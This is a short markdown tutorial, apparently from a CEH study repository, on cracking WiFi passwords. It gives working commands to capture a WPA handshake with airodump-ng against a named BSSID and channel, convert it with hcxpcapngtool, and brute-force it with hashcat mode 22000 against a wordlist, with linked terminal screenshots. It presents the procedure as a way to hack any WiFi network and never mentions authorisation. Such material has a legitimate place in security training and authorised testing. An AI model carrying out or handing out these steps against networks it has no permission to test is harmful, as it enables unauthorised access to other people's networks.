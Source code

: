 # Hacking Wireless Network
Here we will learn how to hack a wifi completely.  WiFi hack means hacking WiFi password.

## First of all, a tool named wifite should be properly installed in our system.

Wi-Fi cracking with: 
hashcat
airmon-ng


# Hashcat

Install this tool: hcxpcapngtool , wifite, Hashcat.

Now we need to capture a handshake file. 

command: airodump-ng --bssid 38:6B:1C:81:55:32 -c 11 -w HS_NETCON wlan2

```
airodump-ng --bssid <wifi mac> -c <channel number> -w <file name> wlan <interface address>
```

You can use Stryker Or WPS App Pro to GUI easily find any Wi-Fi network BSSID or Mac address and channel number.

otherwise you can use terminal to do that like this: 

```
airodump-ng wlan0
```
wlan2 → You must use your Wi-Fi card interface name.

![Screenshot_2023-12-09-20-17-01-915_com offsec nhterm](https://github.com/masshuvo/full_ceh_guide/assets/108648096/1973c9d5-2405-479c-898a-00d123f4376a)

Capture Handshake:

First, you need to capture a 4-way handshake using tools like airodump-ng, Wireshark, or similar tools.
Save Handshake Capture:

Save the captured handshake in a file, for example, handshake.cap.
Use hcxpcapngtool:

Run the following command to convert the captured handshake to the hashcat-compatible format:

Coode: hcxpcapngtool -o output.hccapx handshake.cap
```
hcxpcapngtool -o output.hccapx handshake.cap
```
handshake.cap → This is the one you captured

output.hccapx → The name you want to save it as, but last extension should be like this *.hccapx

![Screenshot_2023-12-09-20-21-09-632_com offsec nhterm](https://github.com/masshuvo/full_ceh_guide/assets/108648096/73003c32-5b2b-42b5-9abb-afc6631be013)


after convert this file you will see like this: 

![Screenshot_2023-12-09-20-21-56-603_com offsec nhterm](https://github.com/masshuvo/full_ceh_guide/assets/108648096/4ce7ded8-360b-4b41-b313-53b3305f9d5a)

Now you can execute this command for cracking: hashcat -m 22000 output.hccapx /usr/share/dict/wordlist-probable.txt

```
hashcat -m 22000 <handshake file>.hccapx <your wordlist>.txt
```

### You can use here password word list as you like. just add the path correctly. 

![Screenshot_2023-12-09-20-24-58-047_com offsec nhterm](https://github.com/masshuvo/full_ceh_guide/assets/108648096/7f57b06b-40b7-4b4a-8cb8-67ae454f62a2)

